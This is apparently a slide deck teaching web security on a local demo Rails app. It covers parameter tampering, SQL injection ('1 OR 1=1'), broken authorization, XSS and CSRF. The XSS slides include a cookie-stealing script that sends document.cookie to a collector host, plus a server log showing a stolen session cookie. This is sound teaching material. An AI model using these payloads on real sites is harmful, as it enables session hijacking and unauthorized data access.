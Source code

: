 !SLIDE bullets incremental small
## Exploits ##
* > Piece of *software*, a *chunk of data*, or *sequence of commands*
* > that *takes advantage* of a *bug*, *glitch or vulnerability*  
* > in order to *cause* *unintended behavior* to occur on computer software, hardware, or something electronic.

!SLIDE bullets incremental small
## ... ##
* > Includes such things as *gaining control* of a computer system or 
* > allowing *privilege escalation* or a *denial of service attack*.

!SLIDE
### Parameter Manipulation ##
	@@@ html
	<form accept-charset="UTF-8" action="/users" 
    method="post">
	<input id="user_email" name="user[email]" 
    size="30" type="text" value="" />
	<input id="user_password" name="user[password]" 
    size="30" type="password" />
	<input type="submit" value="Create" />
	</form>


!SLIDE full-page bullets incremental
* Based on *RoR convetions* we may *infer a db model* something like:
* ![http://yuml.me/7635ae77](class_diagram.png)


!SLIDE bullets incremental
    @@@ html
    <select id="user_role_id" name="user[role_id]">
* Since *user* would hold *foreign key* to *role* table


!SLIDE full-page
![Here we see a tamper data screenshot ...](tamper1.png)


!SLIDE full-page
![Here we see an admin saved screenshot ...](admin_saved.png)


!SLIDE bullets incremental
* This kind of flaw reveals a *lack of server side validations* or *defective authorization logic*


!SLIDE bullets incremental full-page
### SQL Injection ###
* Consider search raises page
* ![Search raises](search.png)


!SLIDE bullets incremental full-page
### ... ###
* Look at what *address* is the *search* going through ...
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1000.00**
* *Testing the waters*
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1'**


!SLIDE full-page
![Here we see an admits injection screenshot ...](admits_injection.png)


!SLIDE bullets incremental
* Lets modify the query string
* http://localhost:3000/raises/search?utf8=%E2%9C%93&search_raise=**1+OR+1%3D1**
* *Surprise!*


!SLIDE full-page
![Here we see an succesful attack screen ...](raises1.png)


!SLIDE bullets incremental
### Broken Authorization ###
* *Parts/resouces* of our application are usually *restricted* to different *users*
* Some times *logic behind* access is *flawed*


!SLIDE bullets incremental
* Following with our previous example on a security flaw
* Are we able to *delete* someone else *raise petition*?


!SLIDE full-page
![Here we see an succesful attack screen ...](raises2.png)


!SLIDE bullets incremental small
### Cross-Site Scripting ###
* > Type of computer security *vulnerability* typically found in *web* applications 
* > that *enables* malicious attackers to *inject client-side script* into web pages viewed by other users.


!SLIDE bullets incremental
### Harming script ###
    @@@javascript
    <script>
      url = 'http://localhost:80/' + document.cookie
      image_tag = "<img src='" + url + "'>"
      document.write(image_tag)
    </script>

* **Note:** This script may be written in a variety of different ways
* &lt;script&gt;document.write('&lt;img src="http://localhost:80/' + document.cookie + '" &gt;')&lt;/script&gt;


!SLIDE full-page
![Here we see an succesful attack screen ...](xss1.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss2.png)


!SLIDE full-page
![Here we see an succesful attack screen ...](xss3.png)


!SLIDE small
    @@@ html
    <tr>
      <td><a href="/users/2">poor@test.com</a></td>
      <td>
        <script>
          document.write('<img src="http://localhost:80/' + 
          document.cookie + '" >')
        </script>
      </td>
      <td>Employee</td>
      <td>5.0</td>
      <td>
        <a href="/users/2">Show</a>
        |
        <a href="/users/2/edit">Edit</a>
        |
        <a href="/users/2" data-confirm="Are you sure?" 
          data-method="delete" rel="nofollow">Destroy</a>
      </td>
    </tr>


!SLIDE commandline incremental
### If this were the attacker server ###
    $ tail -f /var/log/apache2/error.log 
    [Wed Oct 06 13:40:39 2010] [error] [client 127.0.0.1] 
    File does not exist: /var/www/_salary-manager_session
    =BAh7CCIQX2NzcmZfdG9rZW4iMWhhNHZRUW0zRVRSZUQ3TlI3dXFI
    NzQ3NFIwYm1FMGJhYXpNYXV4N0FpdFU9Ig9zZXNzaW9uX2lkIiVjN
    GQyYjcwMmE5OWYxNDlmYzYyNzliYjlkNTBlZDUxMSIZd2FyZGVuLn
    VzZXIudXNlci5rZXlbByIJVXNlcmkG--f5fd5e5103ee0d723d616
    f130f934c6ef5b33e2b


!SLIDE bullets incremental small
### Cross-Site Request Forgery ###
* > Also known as a *one-click attack* or *session riding* and abbreviated as CSRF or XSRF
* > Type of *malicious exploit* of a website whereby *unauthorized commands* are *transmitted from* a user that the *website trusts*.

!SLIDE bullets incremental
### XSS vs CSRF ###
* *XSS* exploits the trust a *client* has *for* a *site*
* *CSRF* exploits the trust a *site* has for a *client*
